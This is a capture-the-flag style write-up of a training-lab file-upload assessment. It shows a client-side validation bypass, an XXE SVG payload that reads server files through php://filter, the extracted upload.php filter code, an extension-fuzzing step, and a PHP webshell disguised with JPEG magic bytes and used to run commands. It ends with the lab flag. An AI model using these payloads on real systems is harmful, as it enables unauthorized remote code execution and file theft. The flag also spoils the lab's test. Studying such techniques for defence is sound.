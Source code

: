You are contracted to perform a penetration test for a company's e-commerce web application. The web application is in its early stages, so you will only be testing any file upload forms you can find.

Try to utilize what you learned in this module to understand how the upload form works and how to bypass various validations in place (if any) to gain remote code execution on the back-end server.

---

## Extra Exercise

Try to note down the main security issues found with the web application and the necessary security measures to mitigate these issues and prevent further exploitation.


![](cybersecurity/images/Pasted%2520image%252020250206180714.png)

Let's take a look at the site:

![](cybersecurity/images/Pasted%2520image%252020250206180859.png)

We got some sections that are interesting, the one I'm interested in the most is the contact us one, let's check it out:

![](cybersecurity/images/Pasted%2520image%252020250206181239.png)

And there we are, we have an upload feature, let's use burp and check the request:

![](cybersecurity/images/Pasted%2520image%252020250206182157.png)

We can `Do Intercept -> Response to this request`:

![](cybersecurity/images/Pasted%2520image%252020250206182227.png)

We need to erase the `CheckFile()` and change the `accept=`:

![](cybersecurity/images/Pasted%2520image%252020250206182356.png)

Now we are able to upload any kind of file, without the need of it being an image file, let's test the next thing:

## SVG XML Upload
---


We can now test if its possible to enumerate resources in the back-end server using `.svg` files, let's upload a file with the following contents:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/hostname"> ]>
<svg>&xxe;</svg>
```

![](cybersecurity/images/Pasted%2520image%252020250206183458.png)

If we decode the contents of it:

![](cybersecurity/images/Pasted%2520image%252020250206183516.png)

It works, we are able to upload a malicious svg file, let's read the contents of `/upload.php`:


```php
<?php
require_once('./common-functions.php');

// uploaded files directory
$target_dir = "./user_feedback_submissions/";

// rename before storing
$fileName = date('ymd') . '_' . basename($_FILES["uploadFile"]["name"]);
$target_file = $target_dir . $fileName;

// get content headers
$contentType = $_FILES['uploadFile']['type'];
$MIMEtype = mime_content_type($_FILES['uploadFile']['tmp_name']);

// blacklist test
if (preg_match('/.+\.ph(p|ps|tml)/', $fileName)) {
    echo "Extension not allowed";
    die();
}

// whitelist test
if (!preg_match('/^.+\.[a-z]{2,3}g$/', $fileName)) {
    echo "Only images are allowed";
    die();
}

// type test
foreach (array($contentType, $MIMEtype) as $type) {
    if (!preg_match('/image\/[a-z]{2,3}g/', $type)) {
        echo "Only images are allowed";
        die();
    }
}

// size test
if ($_FILES["uploadFile"]["size"] > 500000) {
    echo "File too large";
    die();
}

if (move_uploaded_file($_FILES["uploadFile"]["tmp_name"], $target_file)) {
    displayHTMLImage($target_file);
} else {
    echo "File failed to upload";
}

```

Now we are able to see the whitelist and the blacklist of the upload endpoint, we can analyze the code and figure out the way to upload our webshell:

```ad-important
- **Blacklist Check**: Blocks `.php`, `.phps`, `.phtml`.
    
- **Whitelist Regex**: Requires the filename to end with `.[2-3 letters]g` (e.g., `.jpg`, `.svg`).
- **MIME/Content-Type Check**: Must be `image/[a-z]{2,3}g` (e.g., `image/svg+xml`).
- Uploads directory
- Format of the file, it goes by date of upload.
```

Let's send an intruder attack in the following way:

![](cybersecurity/images/Pasted%2520image%252020250206184336.png)

We were able to identify a valid extension: `.phar.jpeg`. Let's proceed.



With this on mind, we can do the following:

```ad-hint
1. Create a php webshell with the right mime-type to bypass the filters.
2. Create a file called `shell.phar.jpeg`.
3. Change the mime type of the file using hexeditor.
```


Let's do it, these are the contents of `shell.phar.jpeg`:

```
AAAA
<?php echo system($_GET["cmd"]);?>
```

Now, we need to change the `AAAA` contents using hexeditor:

![](cybersecurity/images/Pasted%2520image%252020250206185029.png)

Let's replace them for the JPEG bytes: `FF D8 FF DB`

![](cybersecurity/images/Pasted%2520image%252020250206185110.png)

Nice, now let's try uploading the file:

![](cybersecurity/images/Pasted%2520image%252020250206185201.png)

It worked, let's check if the webshell works, in my case, the url would go like this:

```
http://94.237.54.42:58431/contact/user_feedback_submissions/250206_shell.phar.jpeg?cmd=id
```

If we check:

![](cybersecurity/images/Pasted%2520image%252020250206185927.png)

We got it, let's send it to burp to be more comfortable, let's list the contents:

```
bin
boot
dev
etc
flag_2b8f1d2da162d8c44b3696a1dd8a91c9.txt
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
var
```

We got our flag, let's read it:

![](cybersecurity/images/Pasted%2520image%252020250206190133.png)

Flag is:

```
HTB{m4573r1ng_upl04d_3xpl0174710n}
```


![](cybersecurity/images/Pasted%2520image%252020250206190210.png)

